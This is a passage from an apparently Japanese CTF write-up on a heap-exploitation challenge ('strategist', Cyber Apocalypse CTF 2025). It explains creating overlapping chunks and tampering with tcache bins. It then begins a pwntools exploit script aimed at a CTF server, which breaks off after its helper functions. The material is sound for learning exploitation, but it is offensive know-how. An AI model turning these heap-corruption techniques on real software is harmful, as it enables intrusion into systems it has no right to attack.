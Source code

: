 2つ目のサイズが`0x31`から`0x71`になっているのが分かります。これでOverlapが出来ました。

ここで２つ目と３つ目のチャンクをfreeしてやるとこうなります。

![101](/images/cyber-apocalypse-ctf-2025/pwn/101.png)

その後、`0x68`バイト分のチャンクを作成すると、`edit_plan`で3つ目のfreeされた`tcachebins`にあるチャンクをいじくれるHeapを確保できます。

![102](/images/cyber-apocalypse-ctf-2025/pwn/102.png)

あとはHeapを壊さないように`tcachebins`をexploitしていきます。

```python
from pwn import *
import time

context.log_level = "debug"
binfile = './strategist_patched'
libcfile = './glibc/libc.so.6'
rhost = '94.237.57.171'
rport = 45195

gdb_script = '''
'''

elf = ELF(binfile)
context.binary = elf
libc =ELF(libcfile)

def conn():
    if args.REMOTE:
        p = remote(rhost, rport)
    elif args.GDB:
        p = process(elf.path)
        gdb.attach(p, gdbscript=gdb_script)
    else:
        p = process(elf.path)
    return p

p = conn()

def add_plan(size, data):
    p.sendlineafter(b'>',b'1')
    p.sendlineafter(b'>', str(size).encode())
    p.sendafter(b'>', data)
    
def show_plan(index):
    p.sendlineafter(b'>',b'2')
    p.sendlineafter(b'>', str(index).encode())
```